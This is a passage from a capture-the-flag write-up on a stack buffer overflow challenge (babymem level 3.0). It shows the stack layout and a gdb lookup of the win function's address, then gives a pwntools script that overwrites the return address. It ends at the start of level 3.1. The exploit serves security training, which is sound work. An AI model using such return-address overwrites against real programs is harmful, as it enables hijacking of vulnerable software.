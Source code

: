 * This time there's no pointer to the buffer or to the win variable as there is no win variable in the first place.
* In order to execute the `win` function, we have to overwrite the return address with the address of the `win` function.

```
Buffer:                           Padding byte:                     Return address:

00 00 00 00 00 00 00 00              f2 93 28 fd 7f 00 00           9f 2a 40 00 00 00 00 00 
00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00
00 00 00 00 00 00 00 00           50 e2 93 28 fd 7f 00 00
00 00 00 00 00 00 00 00           d0 f2 93 28 fd 7f 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 
```

* Let's open the program in `gdb`.

```
(gdb) disassemble win

; -- snip --
Dump of assembler code for function win:
   0x000000000040236c <+0>:     endbr64 
; -- snip --
```

* As we can see the location of the `win` function is `0x000000000040236c`.
* Let's craft our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x000000000040236c)

p = process('/challenge/babymem_level3.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 3.1

> Overflow a buffer and smash the stack to obtain the flag!

* In order to create a payload we need to know three things:
  * [ ] Location of buffer.
  * [ ] Location of stored return address.
  * [ ] Address of win function.
